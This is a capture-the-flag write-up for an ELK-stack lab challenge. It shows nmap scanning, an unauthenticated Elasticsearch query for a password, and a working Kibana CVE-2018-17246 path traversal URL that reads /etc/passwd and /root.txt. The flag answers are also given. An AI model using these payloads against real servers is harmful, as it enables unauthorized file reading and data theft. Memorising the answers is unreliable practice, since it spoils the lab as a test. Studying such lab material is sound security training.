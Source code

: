 ## Introduction

> McDatabaseAdmin has been trying out some new storage technology and came across the ELK stack(consisting of Elastic Search, Kibana and Log Stash).  
> The Christmas Monster found this insecurely configured instance and locked McDatabaseAdmin out of it. Can McSkidy help to retrieve the lost data?  
> While this task does not have supporting material, here is a general approach on how to go about this challenge:

-	Scan the machine to look for open ports(specific to services running as well)  
-	as with any database enumeration, check if the database requires authentication. If not, enumerate the database to check the tables and records  
-	for other open ports, identify misconfigurations or public exploits based on version numbers


## Questions

> Find the password in the database

td:lr Answer: **9Qs58Ol3AXkMWLxiEyUyyf**

> Read the contents of the /root.txt file

td:lr Answer: **someELKfun**

===============================================================================

First let's deploy the machine and get ourselves VPN-ed into the THM network.  
once the machine is deployed, we can do a nmap scan:

`nmap <ip> -T4` - will reveal open ports 22,111,8000,9200
`nmap <ip> -T4 -p 22,111,8000,9200 -A`

![](./res/pic1.png)

port 9200 is for elasticsearch. so we can try to enumerate elasticsearch database using `curl` command, and a particular query in mind to search for password:

`curl -XGET 'http://<ip>:9200/_search?q=password'`

![](./res/pic2.png)

And we get our answer: **9Qs58Ol3AXkMWLxiEyUyyf**

`nmap <ip> -p- -T4` - will reveal open ports 22,111,5601,7223,8000,9200,9300
`nmap <ip> -p22,111,5601,7223,8000,9200,9300 -T4 -A`

You will get a long list of information from several open ports:

![](./res/pic3.png)

What we want to focus on port 5601, used by Kibana, which has a public vulnerability associated to Local File Inclusion (LFI):

[CVE-2018-17246](https://www.cvedetails.com/cve/CVE-2018-17246/)

It appears that we can do a path traversal technique to read any file within the Kibana server.  
So to test that the path traversal technique works, let's attempt to look at /etc/passwd

`<ip>:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../../../../../../etc/passwd`

To see the results, we need to navigate to `<ip>:8000/kibana-log.txt`:

![](./res/pic4.png)

It works! we manage to see the content of `/etc/passwd`, which means we should be able to use the same technique to retrieve the content of root.txt. If it's not at the base home directory, we might need to trial and error and find the right directory. But let's try the base first:

`<ip>:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../../../../../../root.txt`

Let's refresh the logs and see what we get:

![](./res/pic5.png)

Yes we got the flag! Answer: **someELKfun**









